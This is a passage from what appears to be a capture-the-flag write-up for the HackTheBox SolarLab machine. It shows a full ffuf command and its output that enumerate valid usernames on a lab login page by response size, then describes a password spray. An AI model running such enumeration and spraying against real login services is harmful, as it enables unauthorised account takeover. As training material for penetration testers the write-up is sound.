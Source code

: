 I’ll note that the size for “AlexanderK” and “ClaudiaS” is 2144, whereas the others are 2133! `ffuf` can filter (`-fs 2133`) to make that more clear:

```

oxdf@hacky$ ffuf -u 'http://report.solarlab.htb:6791/login' -d 'username=FUZZ&password=asd' -w potential_user.txt -H "Content-Type: application/x-www-form-urlencoded" -fs 2133

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://report.solarlab.htb:6791/login
 :: Wordlist         : FUZZ: /home/oxdf/hackthebox/solarlab-10.10.11.16/potential_user.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=asd
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2133
________________________________________________

AlexanderK              [Status: 200, Size: 2144, Words: 812, Lines: 87, Duration: 109ms]
ClaudiaS                [Status: 200, Size: 2144, Words: 812, Lines: 87, Duration: 110ms]
:: Progress: [6/6] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

If I try one of these, the error message is different:

![image-20240919131949057](/img/image-20240919131949057.png)

There’s also a blake.byte user that doesn’t exist. It’s worth checking that name in the naming style of first name plus last initial. It does exist.

#### Password Spray

I’ll create a file with the valid usernames, and grab the passwords from the sheet and create a list of possible passwords. I’ll use `ffuf` again, this time with:
- `-fs 2144` to hide “User authentication error” response.
- Both wordlists. In `ffuf`, adding `:[STRING]` after a wordlist tells `ffuf` to use that string instead of `FUZZ` as the replacement target.

It finds one valid set of creds:
